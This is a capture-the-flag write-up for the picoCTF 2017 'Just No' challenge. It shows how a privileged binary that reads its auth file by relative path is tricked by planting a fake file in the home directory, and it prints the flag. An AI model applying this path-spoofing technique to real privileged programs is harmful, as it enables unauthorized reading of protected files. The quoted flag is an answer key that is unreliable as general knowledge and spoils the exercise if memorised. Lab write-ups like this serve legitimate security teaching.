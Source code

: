 ## Just No [40 Points]

A program at /problems/276fc27f3ef921f0e2f0f75ba95c9e60 has access to a flag but refuses to share it. Can you convince it otherwise?

**Hints:**

- Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

**Solution:**

```
$ ssh shell2017.picoctf.com
$ cd /problems/276fc27f3ef921f0e2f0f75ba95c9e60

$ ls -al
total 64
drwxr-xr-x   2 root       root       4096 Mar 31 08:00 .
drwxr-x--x 573 root       root      36864 Apr 16 23:31 ..
-rw-r--r--   1 hacksports just-no_7     2 Mar 31 08:00 auth
-r--r-----   1 hacksports just-no_7    33 Mar 31 08:00 flag
-rwxr-sr-x   1 hacksports just-no_7  7800 Mar 31 08:00 justno
-rw-r--r--   1 hacksports just-no_7   838 Mar 31 08:00 justno.c

$ cat justno.c
$ cat auth
```

The auth file is read from a relative path
```
int main(int argc, char **argv){
  //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
  FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r");
  if(authf == NULL){
    printf("could not find auth file in ../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/\n");
    return 0;
  }
```

The flag file is read if the auth file does not contain "no"
```
if(strcmp(auth,"no")!=0){
  FILE* flagf;
  flagf = fopen("/problems/276fc27f3ef921f0e2f0f75ba95c9e60/flag","r");
  char flag[64];
  fgets(flag,64,flagf);
  printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
  fclose(flagf);
}
```

Create fake auth file and execute justno
```
$ cd
$ mkdir problems
$ mkdir problems/276fc27f3ef921f0e2f0f75ba95c9e60
$ cd problems/276fc27f3ef921f0e2f0f75ba95c9e60
$ echo "yes" > auth
$ /problems/276fc27f3ef921f0e2f0f75ba95c9e60/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 8661ca23ef68adc41d407817b8656dd0

$ rm -R problems
```

**Flag:** 8661ca23ef68adc41d407817b8656dd0
